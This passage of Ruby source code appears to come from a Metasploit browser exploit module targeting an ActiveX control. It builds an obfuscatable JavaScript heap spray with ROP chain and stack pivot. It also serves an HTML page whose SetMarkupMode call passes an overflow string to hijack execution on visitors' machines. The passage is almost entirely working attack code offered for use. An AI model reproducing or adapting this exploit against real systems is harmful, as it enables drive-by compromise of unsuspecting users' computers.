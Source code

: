       # Avoid the attack if the victim doesn't have a setup we're targeting
      if my_target.nil?
       print_error("Browser not supported: #{agent}")
       send_not_found(cli)
       return
      end

      p = payload.encoded

      if my_target['Rop'].nil?
       js_code = Rex::Text.to_unescape(p, Rex::Arch.endian(my_target.arch))
      else
       js_stack_pivot = Rex::Text.to_unescape(get_stack_pivot_stage_1, Rex::Arch.endian(my_target.arch))
       js_code = Rex::Text.to_unescape(get_rop_chain + p, Rex::Arch.endian(my_target.arch))
      end

      js_nops = Rex::Text.to_unescape("\x0c"*4, Rex::Arch.endian(my_target.arch))
      js_90_nops = Rex::Text.to_unescape(make_nops(4), Rex::Arch.endian(my_target.arch))
      js_counter = Rex::Text.to_unescape("\x01\x00\x00\x00", Rex::Arch.endian(my_target.arch))

      js = ""

      if my_target['RandomHeap']
       js = get_random_spray(my_target, js_code, js_nops, js_90_nops, js_counter, js_stack_pivot)
      elsif my_target['Rop']
       js = get_aligned_spray(my_target, js_code, js_nops, js_counter, js_stack_pivot)
      else
       js = get_easy_spray(my_target, js_code, js_nops, js_counter)
      end

      js = heaplib(js, {:noobfu => true})

      if datastore['OBFUSCATE']
       js = ::Rex::Exploitation::JSObfu.new(js)
       js.obfuscate
      end

      if my_target['Rop'].nil?
       sploit = rand_text_alpha(my_target['Offset'])
      else
       sploit = rand_text_alpha(8)
       sploit << get_stack_pivot_stage_2
       # +1 because of the escape character in get_stack_pivot_stage_2
       sploit << rand_text_alpha(my_target['Offset'] - sploit.length + 1)
      end
      sploit << [my_target.ret].pack("V")

      html = <<-MYHTML
      <html>
      <head>
      <script>
      #{js}
      </script>
      </head>
      <body>
      <object classid='clsid:B6FCC215-D303-11D1-BC6C-0000C078797F' id='obj' />
      </object>
      <script>
       setTimeout(function(){ obj.SetMarkupMode("#{sploit}"); }, 100);
      </script>
      </body>
      </html>